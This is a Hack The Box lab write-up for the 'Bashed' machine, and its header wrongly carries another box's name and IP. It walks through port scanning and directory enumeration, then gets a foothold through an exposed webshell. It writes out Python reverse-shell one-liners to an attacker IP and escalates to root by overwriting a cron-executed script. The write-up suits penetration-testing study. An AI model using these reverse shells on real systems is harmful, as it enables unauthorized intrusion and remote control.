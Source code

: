 # HTB - Jerry

#### Ip: 10.10.10.95
#### Name: Bashed
#### Rating: Easy

----------------------------------------------------------------------

Bashed.png

### Enumeration

Lets begin enumerating this box by scanning all TCP ports. I will also speed this scan up by adding the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/Bashed]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.68
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-22 14:44 CDT
Nmap scan report for 10.10.10.68
Host is up (0.080s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.85 seconds

```

Ok, so looks like only port 80/http is up on this box. Let's go ahead and emumerate a bit further and port scan with the `-sC` and `-sV` flags set to enumerate versions and also throw some basic Nmap scripts at it:

nmap.png

So looks like the site is running on Apache, but so far nothing else very interesting jumps out. From here lets try enumerating more and seeing if we can find more directories. For this I will use FeroxBuster, which is incredibly fast:

feroxbuster.png

Cool, we've found a few more directories to investigate, and  /dev seems particularly interesting.

Navigating to the site we find phpbash.php and that appears to be an interactive webshell, in which we can run various commands.

web_shell.png

### Exploitation

Grabbing a python reverse shell one-liner from https://www.revshells.com/ I simply set up a netcat listener and paste the following into the webshell:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.24",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

nc_shell.png

Nice! We now have a shell as www-data. I can quickly stabilize the shell using:

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

and grab the user.txt flag:

user_flag.png

### Privilege Escalation

From here I ran `sudo -l` to see what, if any commands can be run with elevated privileges.

```text
www-data@bashed:/home/arrexel$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Interesting.. it appears I can run any command as user scriptmanager. I'll run `sudo -u scriptmanager bash` to change my user to scriptmanager:

```text
www-data@bashed:/home/arrexel$ sudo -u scriptmanager bash
sudo -u scriptmanager bash
scriptmanager@bashed:/home/arrexel$ whoami
whoami
scriptmanager
```

Now as user scriptmanager I will go back to enumerating the box. In the `/` I find a directory named scripts, which isn't typical. Looking at the scripts it appears there is a file test.py which writes to test.txt every minute. 

```text
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!
```

I can confirm test.txt is being written to every minute by running `ls -la`, observing the date/time, waiting one minute and running the commmand again. 

time_diff.png

Also of note is the fact that scriptmanager owns the test.py file, whereas root is the owner of test.txt, so in theory I should be able to get a shell back as root if I can successfully inject a reverse shell into test.py. 

Lets try it out. First, I will set up a netcat listener `nc -lnvp 8888` and then run:

```text
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.24\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > test.py
```

to write the reverse shell into the cron-job.

Sure enough one minute later I catch a reverse shell as root on my netcat listener. After stabilizing the shell all thats left to do is grab the flag.

root_flag.png

### Key Takeaways

- Sometimes it's the features themselves that prove to be the biggest vulnerabilities. Having this webshell on a public facing site was clearly a bad idea.

- It pays to investigate machines manually once on the target, as you may find things that stand out as peculiar, that may warrant more investigating. It is not common to see a scripts directory in `/` which tipped me off to investigate more.

Thanks for following along!

Ryan

----------------------------------------------------------------------------------------